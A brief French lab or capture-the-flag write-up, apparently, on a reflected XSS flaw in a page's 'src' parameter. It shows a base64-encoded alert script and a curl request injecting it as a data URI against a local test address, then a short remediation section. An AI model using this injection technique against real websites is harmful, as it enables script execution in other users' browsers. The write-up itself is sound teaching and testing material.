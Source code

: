 # XSS reflected injection

## Exploitation 

Lorsque l'on clique sur l'image de la NSA on se retrouve a avoir dans l'url les elements "?page=media&src=nsa".
La page se sert alors de src=nsa pour afficher l'image demandee.
De notre cote on peut s'en servir pour injecter de la data.

echo "<script>alert(0)</script>" | base64
PHNjcmlwdD5hbGVydCgwKTwvc2NyaXB0Pgo=

curl "http://192.168.122.41/?page=media&src=%22data:text/html;base64,PHNjcmlwdD5hbGVydCgwKTwvc2NyaXB0Pgo="

## Resolution

Pour eviter ce type de failles on prefereras rejeter les requetes qui contiennent des caracteres speciaux.
Aussi on prefereras proceder d'une maniere differente pour seulement afficher des images statiques comme celles la.

